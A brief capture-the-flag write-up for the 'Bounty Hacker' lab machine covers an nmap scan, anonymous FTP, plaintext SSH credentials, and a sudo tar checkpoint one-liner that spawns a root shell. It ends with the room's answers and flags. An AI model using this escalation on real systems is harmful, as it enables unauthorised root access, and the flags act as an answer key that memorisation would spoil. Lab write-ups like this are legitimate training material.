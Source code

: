 # Bounty Hacker
# By 0xRar

## machine_ip: *.*.*.*

## nmap scan:
```
Not shown: 969 filtered ports, 28 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.32.95
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

## ports : 
```
ftp=21 anonymous login enabled
ssh=22 user: lin , password: RedDr4gonSynd1cat3
```


##  Who wrote the task list?:
```
From the task.txt
Answer: lin
```

## What service can you bruteforce with the text file found?:
```
Answer: ssh
```

## user.txt:
```
Answer: THM{CR1M3_SyNd1C4T3}
```

## priv esc
```
https://gtfobins.github.io/gtfobins/tar/
sudo -l
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh

```

## root.txt:
```
Answer: THM{80UN7Y_h4cK3r}

```


```
# id
uid=0(root) gid=0(root) groups=0(root)
# whoami
root
```
